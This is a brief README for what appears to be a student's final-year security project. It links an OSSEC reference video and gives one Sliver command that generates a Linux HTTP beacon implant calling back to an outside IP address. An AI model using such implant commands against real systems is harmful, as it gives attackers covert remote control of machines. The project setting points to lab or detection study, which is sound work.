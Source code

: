 # final-year-project

OSSEC Reference:
https://www.youtube.com/watch?v=7c8xowHz0Ko

Sliver cmds:
 
``` generate beacon --http 64.227.151.51 --arch amd64 --os linux --save /root ```
